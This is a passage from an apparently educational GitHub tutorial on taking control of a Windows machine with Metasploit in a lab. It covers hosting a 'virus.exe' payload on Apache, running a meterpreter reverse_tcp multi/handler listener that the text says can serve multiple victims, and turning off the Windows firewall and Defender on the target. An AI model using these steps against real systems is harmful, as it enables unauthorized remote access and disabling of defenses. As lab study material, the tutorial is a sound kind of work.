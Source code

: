 Command: sudo service apache2 start



IV) confirmation of hosting can be done by opening  the web browser in the attacker machine and call the IP address and specific directory in our machine, which is 10.0.2.15/share in our case.

![image](https://github.com/swopnilshakya7/Taking-Control-Over-Windows-Machine-Metasploit-Ethical-Hacking/assets/140642619/526b2a09-aad1-456b-8ee8-1f80540ea268)

So now keeping the attacker machine running, we can also call this ip in victim/ target windows browser to get that virus.exe file.



<br/> Step 4: Setting the Kali/ attacker machine ready to listen (Phoning home) <br/>

To get the attacker machine ready to listen whenever a victim is active or got connected with the machine, we run few commands on the msfv6 console.

    • First we will use the handler of msfv6 so that we will be able to handle multiple machines too. This virus can be sent on internet and multiple victims can download it, our attacker machine should be prepare to listen and handle multiple machines. For that, 
      Command: use exploit/multi/handler
    • Now we need to tell the metasploit which payload we are using, and for what msf should stay in the listening mode. For that,
      Command: set PAYLOAD windows/meterpreter/reverse_tcp
    • Thirdly we should define the IP address to indicate the local host where the connection will be coming in. In our case, it is 10.0.2.15. For that,
      Command: set LHOST 10.0.9.15
    • And then lauch the exploit.
      Command: exploit -j
      -j command is to indicate background. Here, -j is telling metasploit to run the handler in the background, so that metasploit will be free for us for now to do other things which its listening to any probable victims in background.


![image](https://github.com/swopnilshakya7/Taking-Control-Over-Windows-Machine-Metasploit-Ethical-Hacking/assets/140642619/f4a9afe7-4308-4530-a199-7ed1945da59c)


<br/> Step 5: Infecting the windows machine <br/>
Now, for the further steps, lets disable some firewall features of the windows to make this project easy going for us. In real life also, in case of desperate use of the file, the target can be manipulated enough to download the virus anyway.

So to make the system firewall weak for now to get the easy download on our victim machine. Just go to cmd as administrator and type the following command.

Command : netsh advfirewall set allprofiles state off

![image](https://github.com/swopnilshakya7/Taking-Control-Over-Windows-Machine-Metasploit-Ethical-Hacking/assets/140642619/827b636a-8e2e-47de-bff3-56bd42158f97)



Next we also turn off the Windows Defender. For that, we type virus in the search bar and open Virus & threat protection settings> manage setting and turn Real-time and Cloud-delivered protection off.



After this, I have restarted both of the machine. We can do that to practice the whole thing again because next step will begin our windows machine infection.

